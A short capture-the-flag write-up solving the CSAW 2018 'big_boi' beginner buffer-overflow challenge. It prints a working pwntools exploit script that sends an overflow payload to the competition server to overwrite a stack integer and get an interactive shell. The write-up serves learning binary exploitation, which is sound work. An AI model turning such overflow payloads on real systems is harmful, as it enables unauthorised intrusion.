


# big_boi

This is an easy, 25-point binary exploitation problem from CSAW2018.

## Reconnaissance

This problem is really simple and appears designed for students solving their first buffer overflow challenge. Here's the vulnerable code:



I just need to overflow a buffer and replace an integer on the stack with another one.

Here's the code to solve it:
```
### exploit-boi.py

from pwn import *
context.binary = '/home/ctf/Documents/CSAW2018/bigboi25/boi'
from time import sleep

local = False
if local:
    p = process('./boi')
else:
    p = remote('pwn.chal.csaw.io', 9000)

time.sleep(1)
p.send("AAAABBBBCCCCDDDDEEEE\xee\xba\xf3\xca"+"\n")
p.interactive()
```

And the flag:



Short and sweet.
